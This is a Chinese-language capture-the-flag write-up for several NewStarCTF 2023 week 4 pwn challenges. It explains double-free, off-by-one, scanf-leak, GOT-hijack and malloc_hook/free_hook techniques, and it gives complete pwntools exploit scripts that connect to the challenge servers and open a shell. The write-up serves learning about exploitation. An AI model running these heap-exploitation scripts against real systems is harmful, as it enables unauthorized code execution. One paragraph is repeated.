




# newstartctf2023_week4 pwn
# Double
堆 heap, double_free, fastbin
libc: 2.23
程序中功能选择只有创建 add() ，删除 del() 和检查 check() 。其中， check() 内存在后门函数，只要 0x602070 处的值为 1638，即可直接 getsshell。
其次， del() 中释放块后没有清除指针，可以进行 double free。因此只要在 0x602070 处伪造块，并设置值为 1638。
add() 中固定分配 0x28 大小的块，并且同时写入内容。释放后进入 fastbin。
实际占用 0x30 空间，释放后进入 fastbin [1]
# 步骤
分配 2 个 chunk，序号分别为 0、1，然后按 0、1、0 的顺序释放 chunk，这样 0 号 chunk 在 fastbin 中存在 2 次构成闭环。
fastbin[1] -> chunk0 -> chunk1 -> chunk0 (->chunk1)
再次分配一个块，此时分配到 0 号 chunk，在其中输入 0x602070 的编码。此时 fastbin [1] 中即为：
fastbin[1] -> chunk1 —> chunk0 -> 0x602070
再分配 3 次，在第 3 次时输入内容 1638，然后选择进入 check() 。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
p=remote('node4.buuoj.cn',25043) | |
#p=process('./Double_pe') | |
#gdb.attach(p, 'b *0x400B3C') | |
target = 0x602070 | |
num = 1638 | |
def choose(x): | |
p.recvuntil(b'>\n') | |
p.sendline(str(x).encode()) | |
def mal(index, content): | |
choose(1) | |
p.sendlineafter(b'Input idx\n', str(index).encode()) | |
p.sendlineafter(b'Input content\n', content) | |
def free(index): | |
choose(2) | |
p.recvuntil(b'Input idx\n') | |
p.sendline(str(index).encode()) | |
mal(0, b'a0') | |
mal(1, b'a1') | |
free(0) | |
free(1) | |
free(0) | |
mal(0,p64(target-0x10)) | |
mal(1,b'b0') | |
mal(0,b'b1') | |
mal(2, p64(num)) | |
choose(3) | |
p.interactive() |
# game
NULL_byte_off-by-one in stack, libc 偏移
或许这道题属于 re？而且这道题含 utf-8 字符，写脚本还不好写。
# 程序流程
程序大致流程如下：
- 先选择角色，选择三月七或派蒙。
- 然后进入主循环。主循环中，可以选择送原石（接委托）或者送 kfc 联名套餐（对肯德基爷爷说话）。其中，原神玩家只能接委托，崩铁玩家只能对肯德基爷爷说话，否则都会直接退出。
- 接委托中，会让 v7 增加 0x10000（起始为 0）。其次，如果 v7 大于 0x3ffff，即执行了 4 次以上委托，就会泄露 system 函数的地址。
- 对话中，使用 read 函数向栈上输入值。这里存在漏洞，如果没有输入回车作为结尾，会自动在字符串最后添加
'\0'，在输入 8 个非回车字节后直接覆盖第 9 字节，可以修改相邻的变量。而该变量标识了玩家选择的角色，1 为三月七，0 为派蒙。覆盖为 0 后，可以从对话转为接委托。

# 漏洞
在主函数最后，会执行 &puts-v3-v7 处的函数，以 v5 作为变量。因此调整对应函数地址为 system 的地址，让 v5 指向 "/bin/sh\0" ，即可实现 getshell。
其中，进入该分支的前提是，主菜单选择时输入 3，并且执行过接委托和对话。而利用 read 函数处的漏洞即可实现。v7 的值即执行委托时累加的值，v3 的值当场输入，但只能输入 short 类型，即只能输入范围在 - 32768~32767 的值。

# 计算偏移
首先计算 puts 函数和 system 函数的偏移。这个利用题目所给的 libc.so.6 文件即可直接算出，不需要先泄露再去计算，因为这边只需要偏移不需要绝对地址。所以接委托中泄露 system 地址的功能可有可无。利用 pwintools 算一算。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
libc = ELF('./libc-2.31.so') | |
sys_a = libc.sym['system'] | |
puts_a = libc.sym['puts'] | |
print(f"puts: {puts_a:#x}, system: {sys_a:#x}") | |
#bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
offset = puts_a - sys_a | |
print(f"offset: {offset:#x}") | |
for i in range(5): | |
v3 = offset - i*0x10000 | |
print(f"{i}: v3={v3}") |

两者偏移为 205200，只有在 v7 为 0x30000 时，v3 才能控制在 short 范围内，即 8592。
v5 的值即为与肯德基老爷爷对话的内容，所以对话时输入 "/bin//sh" ，刚好 8 字节。
懒得写脚本实现了，不然我更喜欢 /bin/sh\0

# message board
scanf 漏洞，got 劫持
主函数中，存在任意地址写入，但首先会经过 board 函数。
在 board 函数中，可以自定义选择往栈上利用 scanf 输入最多 15 个字节。接着，会要求输入 puts 的真实地址，输入错误直接结束程序。
# 泄露地址
scanf 函数可以利用非数字字符跳过输入，而这样的操作不会改变对应地址原本的值。但是如果输入大部分非数字字符，scanf 读取后跳过，但不会将该字符从缓冲区中拿走，因此，该程序后续的所有 scanf 都会直接跳过，包括要求输入 puts 地址的。但是，如果输入的是 '+' ，那么只会忽略当前的 "%d" ，应该是因为 + 作为正负号吧。
跳过大量 scanf，我们可以拿到很多栈上数据。


其中，可以通过黄色的地址推算栈上地址。可以通过紫色地址推算 libc 基址。
利用 _IO_2_1_stdeer_ 推算 libc 基地址，然后查库算出 puts 真实地址并输入，即可进入主函数。
在主函数中，由于没有对下标进行检测，所以我们拥有两次修改任意地址 4 字节的机会。但由于输入均为输入 32 位整数，且 a 数组处于.bss 段，所以够不到 libc 处或者栈空间，但是可以够到 got 表，且只开了 Partial RELRO 保护，got 可写。
在主函数最后执行了 exit(0) ，因此我们可以将 got 表中 exit 的值修改为 one_gadget，便可以直接执行 getshell。
# 计算下标
a 数组的地址为 0x4040A0，而 got 表 exit 项的地址为 0x404030，因此偏移为 offset=0x404030-0x4040A0=-0x70 ，下标应为 idx=offset/4=-0x70/0x4=-0x1c=-28 。而 one_gadget 长度超过 4 字节，应分两次写入，刚好用完两次机会。第一次往 idx=-28 处写入地址低 4 位字节 onegadget&0xffffffff ，第二次往 idx+1=-27 处写入高 4 位字节 onegadget>>32 。
# one_gadget 获取
利用 one_gadget 工具。获取了该 libc 版本的 3 个 one_gadget。

在程序运行到最后 exit 时，rdi 和 rsi 寄存器值为 0，可以使用第三个 one_gadget。

#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
e=ELF('./pwn') | |
#p=process('./pwn_pe') | |
p=remote('node4.buuoj.cn',28040) | |
#gdb.attach(p, 'b *0x401336') | |
offset = 0x0 | |
payload = b'a'*offset | |
#p.send(payload) | |
p.sendline(b'15') | |
strerr = 0 | |
stack1 = 0 | |
for i in range(15): | |
p.sendline(b'+') | |
p.recvuntil(b'is ') | |
if i == 1: | |
strerr = int(p.recvuntil(b'\n')[:-1],10) | |
if i == 12: | |
stack1 = int(p.recvuntil(b'\n')[:-1],10) | |
print("strerr:%#x, stack:%#x"%(strerr,stack1)) | |
libc = ELF('./libc-2.31.so') | |
libcbase = strerr - libc.sym['_IO_2_1_stderr_'] | |
#if offine, libcbase need add 0x30 | |
sys_a = libcbase + libc.sym['system'] | |
bs_a = libcbase + next(libc.search(b'/bin/sh')) | |
puts_a = libcbase + libc.sym['puts'] | |
#rtld = libcbase + libc.sym['_rtld_global'] | |
rtld = libcbase + 0x222030 | |
one_gadget = libcbase + 0xe3b01 | |
exit_hook = rtld + 3848 | |
exit_g = 0x404030 | |
a = 0x4040A0 | |
index = (exit_g-a)//4 | |
p.recvuntil(b'Now please enter the verification code\n') | |
p.sendline(str(puts_a).encode()) | |
p.recvuntil(b'You can modify your suggestions\n') | |
print("rtld-libc %#x"%libc.sym['_rtld_global']) | |
print("libcbase %#x"%libcbase) | |
print(f"rtld: {rtld:#x}, exithook: {exit_hook:#x}, sys_a: {sys_a:#x}") | |
assert (exit_hook-a)%4 == 0 | |
assert index <= 0x7fffffff | |
p.sendline(str(index).encode()) | |
p.recvuntil(b'input new suggestion\n') | |
p.sendline(str(one_gadget&0xffffffff).encode()) | |
p.recvuntil(b'You can modify your suggestions\n') | |
p.sendline(str(index+1).encode()) | |
p.recvuntil(b'input new suggestion\n') | |
p.sendline(str(one_gadget>>32).encode()) | |
p.interactive() |
原本想过去修改_rtld_global 中的 exit_hook，但是后面发现够不着，而且明明可以直接改 exit 的。
# ezheap
堆 heap, chunk_extend_and_overlapping, use_after_free, free_hook, one_gadget
libc: 2.31
# 程序分析
程序中功能选择有创建 add() ，释放 delete() ，显示 show() ，编辑 edit() 。
# add 函数
总共可以分配 15 个 chunk，不能覆盖已有 chunk 的地址，且由于释放 chunk 时不清空指针，所以共可以分配 15 次 chunk。
每次分配中，先分配固定的 0x20 的空间（实际占用 0x30），这里称为 head chunk，其地址放在 notebook 数组中。然后再分配一个对应输入大小的块，称为 real chunk，其大小会储存在 notesize 数组。headchunk 会储存 real chunk 的大小，以及储存 real chunk 的地址 (headchunk+0x18)。
# delete 函数
这个 delete 函数是个有缺陷的函数。它只会 free 掉对应的 head chunk，而 real chunk 完全不 free 的。也就是只会 free 掉储存在 notebook 数组的地址对应的 chunk。
# show 函数
输出 real chunk 的值，也就是先读取 notebook 对应的 head chunk，然后输出 head chunk 中的第 24 个字节开始的地址对应的内容。
# edit 函数
编辑函数，但是存在检查。
会检查 head chunk 的储存的 size 与 notesize 储存的是否一致。如果一致，可直接向 head chunk 储存的地址写入内容。
# 漏洞利用
# 任意地址读写
经典的带有 head chunk 的题。释放两个 headchunk，这时如果请求一个与 headchunk 大小一致的 realchunk，那么 realchunk 会分配到其中一个已经释放的 headchunk 处。这样我们就有办法 free 掉 real chunk 了。
后续按在堆中出现顺序称呼 headchunk 和 realchunk，如 head0, head1, real0, real1

其次，这样操作后，head0 指向 head2，因此便可以利用 ehad0 修改 head1 的值，保留 size 值不变，修改地址为目标地址，这样就可以利用 head1 配合 edit 函数实现任意地址读写。可以修改如 __free_hook 的值，将其修改为 one_gadget 然后执行 free (0) 实现 getshell。
这时 head1 还残留着指向 real1 的值，只要将前 0x18 个字节填充了，即可将其泄露。
# 泄露 libc 地址
要实现这个目的需要泄露 libc 地址，然后才能计算 __free_hook 和 one_gadget 的地址。而泄露 libc 的方法则是 free 掉一个较大的 chunk，该 chunk 会被放入 unsorted bin，其 fd 和 bk 即为 mainarena+96 的值，可以利用其计算 libc 的基址。利用 UAF 读取该地址。tcache 的大小最大为 0x410，因此释放的 chunk 需要大于该值。
由于能 free 掉的只有 headchunk，即使创建了一个大 chunk 也 free 不掉。因此可以利用任意地址读写，修改某个 headchunk 的头，使其变为一个大 chunk。大小记得与其他 chunk 对齐。然后释放对应 headchunk，再将其 fd 打印，也就是 mainarena+96 的地址。
# 步骤
先分配 4 次块，第三次分配块的大小为 0x420-0x28-0x10 ，目的是让修改后的 0x420 大小的 head2 对齐 head3。然后 free 掉前两个 headchunk，构造任意地址读写。这时填充 head1 泄露堆地址。然后去计算 h2 的真实地址。
这里懒得一个个构造 head1 了，所以写了个 python 类。传入要修改的地址，通过 head0 写入 head1，然后通过 head1 往目标地址读写。第一次操作修改 head2 的头为 0x421，然后释放 head2 泄露 libc 地址。第二次操作修改 free_hook 为 one_gadget。最后执行一次 free 函数 getshell。
#!/usr/bin/python3 | |
from pwn import * | |
context(arch='amd64', log_level='debug') | |
p=remote('node4.buuoj.cn',29440) | |
#p=process('./pwn_pe') | |
#gdb.attach(p, 'b *$rebase(0x1837)') | |
def choose(x): | |
p.recvuntil(b'>>\n') | |
p.sendline(str(x).encode()) | |
def mal(index, content, size=0x28): | |
choose(1) | |
p.sendafter(b'enter idx(0~15): \n', str(index).encode()) | |
p.sendafter(b'enter size: \n', str(size).encode()) | |
p.sendlineafter(b'write the note: \n', content) | |
def free(index): | |
choose(2) | |
p.recvuntil(b'enter idx(0~15): \n') | |
p.send(str(index).encode()) | |
def edit(index, content): | |
choose(4) | |
p.sendafter(b'enter idx(0~15): \n', str(index).encode()) | |
p.sendafter(b'enter content: \n', content) | |
def printcont(index): | |
choose(3) | |
p.recvuntil(b'enter idx(0~15): \n') | |
p.send(str(index).encode()) | |
class headchunk(): | |
def __init__(self, dest, size=0x28): | |
self.dest = dest | |
self.size = size | |
def out(self): | |
payload = flat([self.size, 0, 0, self.dest]) | |
return payload | |
mal(0,b'aaaa') | |
mal(1,b'aaaa') | |
mal(2,b'aaaa',0x420-0x28-0x10) | |
mal(3,b'aaaa') | |
free(1) | |
free(0) | |
mal(15, b'aa') | |
#free(1) | |
edit(0, b'a'*0x17+b'b') | |
printcont(0) | |
p.recvuntil(b'ab') | |
r1 = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0')) | |
h0 = r1 - 0x30*3 | |
print(f'the first chunk is : {h0:#x}') | |
h2 = h0 + 0x30*4 | |
hc1 = headchunk(h2-0x8) #change h2's size | |
edit(0, hc1.out()) | |
edit(1, p64(0x421)) | |
free(2) | |
hc1.dest = h2 | |
edit(0, hc1.out()) | |
printcont(1) | |
mainarena_96 = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0')) | |
libc = ELF('./libc.so.6') | |
libcbase = mainarena_96 - 0x1ecbe0 | |
print(f'the libcbase is : {libcbase:#x}') | |
#if offine, libcbase need add 0x30 | |
#onegadget = libcbase + 0xe3b01 + 0x30 | |
onegadget = libcbase + 0xe3b01 | |
freehook = libcbase + libc.sym['__free_hook'] | |
print(f'the freehook is : {freehook:#x}') | |
print(f'the one_gadget is : {onegadget:#x}') | |
hc1.dest = freehook | |
edit(0, hc1.out()) | |
edit(1, p64(onegadget)) | |
free(0) | |
p.interactive() |
# god of change
堆 heap, tcache dup, off-by-one, malloc_hook, one_gadget
libc: 2.31
# 程序分析
程序中功能选择有创建 add() ，释放 delete() ，显示 show() 。(好像是我自己给程序重命名的)
# 创建函数
存在很明显的故意的单字节溢出，完全就是怕你看不见。
其次，限制了 malloc 块的大小，最大为 0x7f。最后，加了两个数组，分别储存分配 chunk 的大小和是否在使用，我分别命名为 chunkSize 和 chunkInuse。
最多分配 31 次 chunk。
# 释放函数
不检查 chunkInuse，不清除对应 chunkLIst 的指针，可以 double free。
会将对应的 chunkSize 和 chunkInuse 置 0。
# 显示函数
会检查 chunkInuse。
# 漏洞利用
依旧是构造 unsorted bin 泄露 libc 地址。利用 off-by-one 修改相邻的 chunk 的 size，造成 overlapping。然后伪造大 chunk，释放并泄露地址。
可以利用 tcache dup 进行任意地址读写。高版本对 tcache 的 double free 的检查很严用不了，所以释放 7 个同大小 chunk 填满 tcache，使之后的 chunk 被放入 fastbin，再利用 fastbin 的 double free。这需要目标地址附近能构造 fake chunk。
由于 free_hook 附近比我的脑子还空，所以只能利用 malloc_hook，然后覆写为 one_gadget。

# 步骤
分配一堆 chunk，其中 chunk3-12 用于对齐之后伪造的 unsorted chunk，最后分配个 chunk13，防止 unsort chunk 与 top chunk 合并。
# 泄露 libc 地址
释放 chunk0 后再分配，同时覆写 chunk1 的大小为 0x81。释放 chunk1，再输入大小 0x78 分配到 chunk1，覆写 chunk2 对应的 size 为 0x461。
释放 chunk2，使其进入 unsorted bin。再次释放并分配 chunk1，填充 'a' 到 chunk2 的内容区。打印 chunk1 得到 mainarena+96 的地址。用 chunkList [16] 读取 chunk1，因为 chunkList [1] 等的 chunkInuse 已被置 0 无法调用显示函数。
# 构造 fake chunk
在 malloc_hook 附近寻找适合的数据。找到个 0x7f 适合构建 fake chunk。

黄色为 prev_size，蓝色为 size，红色为需要覆写的地方。因此 fakechunk 的真实地址为 mallochook-0x30-3 ，而其填充内容 payload=b'\0'*(0x20+3) + p64(one_gadget) 。
 该 fake chunk 释放时会进入 0x70 的 fastbin，所以之前分配了大量 0x70 真实大小的 chunk。释放 7 个 0x70 真实大小的 chunk。之后再释放一个同大小 chunk，并将其 fd 修改为 fake chunk 的地址。这里选择再利用 chunk1 和 chunk2 构造。修改 chunk2 的 size 为 0x71，释放 chunk1 后，再次利用 chunk1 修改其 fd。
该 fake chunk 释放时会进入 0x70 的 fastbin，所以之前分配了大量 0x70 真实大小的 chunk。释放 7 个 0x70 真实大小的 chunk。之后再释放一个同大小 chunk，并将其 fd 修改为 fake chunk 的地址。这里选择再利用 chunk1 和 chunk2 构造。修改 chunk2 的 size 为 0x71，释放 chunk1 后，再次利用 chunk1 修改其 fd。
最后分配掉 tcache 里所有 chunk，程序会将 fastbin 内的 chunk 转化为 tcahce 里的 chunk，再次分配，直到分配到 fake chunk 并修改 malloc_hook 的值。
# 调用 one_gadget
malloc 非 0 值的时候是找不到合适的 one_gadget 的。但是观察到 rdi 的值与 malloc 时输入的 size 值是一致的，于是我尝试了一下 malloc (0)。
在尝试 malloc (0) 这之前我打算修改 free_hook，然后 free 含有
"/bin/sh\0"的 chunk。因此试过 unsorted bin attack，unlink。这些都失败了，因为高版本对 unlink 的检查很严格。还打算尝试多次 tcache dup 修改 main_arena 中的 top chunk 的地址，使其指向 free_hook 附近，但是分配的 chunk 就会超过 30 次。最后想尝试 malloc_hook 指向 reaclloc，然后修改 realloc_hook 指向 one_gadget。在调整 malloc_hook 指向的起始位置的时候才发现了 rdi 的值的特点。


malloc(0) 后是如下情况。
rdx 也变成 0 了，可以用 0xe3b01 的 one_gadget 了。
最后记得 malloc (0) 手写，毕竟已经收不到 b"the content:" 了。
#!/usr/bin/python3 | |
from pwn import * | |
context(log_level='debug') | |
isremote = 0 | |
if (len(sys.argv)>1 and int(sys.argv[1])==1): | |
p=remote('node4.buuoj.cn',28449) | |
libc = ELF('./libc.so.6') | |
isremote = 1 | |
else: | |
p=process('./pwn_pe') | |
#gdb.attach(p, 'b *$rebase(0x1592)') | |
libc=ELF('/glibc-all-in-one/2.31-0ubuntu9.7_amd64/libc.so.6') | |
#gdb.attach(p, 'b malloc') | |
def choose(x): | |
p.recvuntil(b'Your Choice: ') | |
p.send(str(x).encode()) | |
def mal(content, size=0x18): | |
choose(1) | |
p.sendlineafter(b'size: \n', str(size).encode()) | |
p.sendafter(b'the content: \n', content) | |
def free(index): | |
choose(3) | |
p.recvuntil(b'idx: \n') | |
p.sendline(str(index).encode()) | |
assert not b'forbidden' in p.recvuntil(b'1.Create Slot') | |
def printcont(index): | |
choose(2) | |
p.recvuntil(b'idx: \n') | |
p.sendline(str(index).encode()) | |
mal(b'aa') | |
mal(b'aa') #1 | |
mal(b'aa') #2 | |
mal(b'aa60', 0x48) #3 | |
for i in range(0x460//0x70 -1): #4 - 12 | |
mal(b'aa70'+str(i).encode(), 0x68) | |
mal(b'aa')#13 | |
free(0) | |
mal(b'/bin/sh\0'.ljust(0x18, b'a')+b'\x81') #14-0 | |
free(1) | |
mal(b'a'*0x18+p64(0x461), 0x78) #15-1 | |
free(2) | |
free(1) | |
mal(b'a'*0x1f + b'b',0x78) #16-1 | |
printcont(16) | |
p.recvuntil(b'ab') | |
mainarena_96 = u64(p.recvuntil(b'\n')[:-1].ljust(8,b'\0')) | |
libcbase = mainarena_96 - 0x1ecbe0 | |
print(f'the libcbase is : {libcbase:#x}') | |
if isremote == 1: | |
onegadget = libcbase + 0xe3b01 | |
else: | |
onegadget = libcbase + 0xe3b31 | |
freehook = libcbase + libc.sym['__free_hook'] | |
mallochook = libcbase + libc.sym['__malloc_hook'] | |
print(f'the freehook is : {freehook:#x}') | |
print(f'the malloc_hook is : {mallochook:#x}') | |
print(f'the one_gadget is : {onegadget:#x}') | |
fakechunk0 = mallochook - 0x30 - 3 | |
payload0 = b'\0' * (0x3 + 0x20) + p64(onegadget) | |
for i in range(4,11): #4-10 7->tcache 0x7 | |
free(i) | |
free(1) | |
mal(b'a'*0x18+p64(0x71), 0x78) #18-1 | |
free(2) #fastbin -> 2 | |
free(1) | |
mal(b'a'*0x18+p64(0x71)+p64(fakechunk0), 0x78) #19-1 | |
for i in range(7): | |
mal(b'cc70'+str(i).encode(), 0x68) | |
# tcache -> 2 -> fake | |
mal(b'cc', 0x68) #from fastbin #2 | |
mal(payload0, 0x68) | |
choose(1) | |
p.recvuntil(b'size: \n') | |
p.send(b'0') | |
p.interactive() |